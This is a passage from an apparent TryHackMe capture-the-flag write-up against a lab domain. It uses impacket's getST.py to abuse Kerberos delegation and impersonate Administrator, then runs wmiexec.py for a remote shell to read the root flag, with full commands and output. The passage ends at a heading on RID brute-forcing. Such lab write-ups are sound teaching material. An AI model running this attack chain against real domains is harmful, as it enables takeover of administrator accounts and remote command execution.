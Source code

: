 Using impacket's `getST.py` for this.

```console
$ getST.py -spn "cifs/haystack.thm.corp" -impersonate "Administrator" "thm.corp/DARLA_WINTERS:NewPassword123@"
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

### Getting a shell

Setting the ccache using the `KRB5CCNAME` environment variable.

```console
export KRB5CCNAME=Administrator.ccache
```

Now we can use `wmiexec.py` with Kerberos authentication to get a shell as `Administrator` and read the root flag.

```console
$ wmiexec.py -k -no-pass Administrator@haystack.thm.corp
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
thm\administrator

C:\>dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

07/14/2023  07:23 AM    <DIR>          .
07/14/2023  07:23 AM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/16/2023  04:37 PM                30 root.txt
               3 File(s)          1,111 bytes
               2 Dir(s)  12,239,609,856 bytes free
```

## Alternative way of getting user

### RID Bruteforce to discover usernames
